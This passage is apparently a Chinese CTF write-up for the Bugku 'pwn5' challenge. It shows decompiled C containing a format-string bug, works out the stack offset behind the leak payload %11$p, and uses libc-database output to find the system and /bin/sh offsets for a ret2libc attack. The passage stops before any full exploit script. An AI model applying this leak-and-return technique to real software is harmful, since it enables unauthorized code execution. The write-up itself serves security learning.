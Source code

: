 ## pwn5

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-20h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  memset(&s, 0, 0x20uLL);
  puts(&::s);
  read(0, &s, 8uLL);
  printf(&s, &s);
  puts(&s);
  puts(&s);
  puts(&s);
  puts(&byte_400978);
  sleep(1u);
  puts(asc_400998);
  read(0, &s, 0x40uLL);
  if (!strstr(&s, &needle) || !strstr(&s, &byte_4009BA) )
  {
    puts(&byte_4009C8);
    exit(0);
  }
  puts(&byte_4009F8);
  return 0;
}
```

注意到 `printf(&s, &s);`，说明这里有一个格式化字符串漏洞。通过 gdb 调试后发现，我们可以泄露 `__libc_start_main` 地址来得到 `system` 和 `/bin/sh` 的地址。

![图 2](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/BugkuPwn/0.png)

而 `__libc_start_main` 和我们的输入在栈上相差 `0x28`，换算成偏移量就是 `0x28 / 8 = 0x05`，此外还需要考虑 64 位下的六个传参寄存器，因此总偏移为 `0xb`。我们输入 `%11$p` 即可泄露 `__libc_start_main` 地址 `0x7ffff7a2d830`。

接下来就交给 `libc_database` 工具了：

```shell
$ ./find __libc_start_main_ret 830
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu3_amd64)
$ ./dump libc6_2.23-0ubuntu10_amd64
offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_dup2 = 0x00000000000f7970
offset_read = 0x00000000000f7250
offset_write = 0x00000000000f72b0
offset_str_bin_sh = 0x18cd57
```

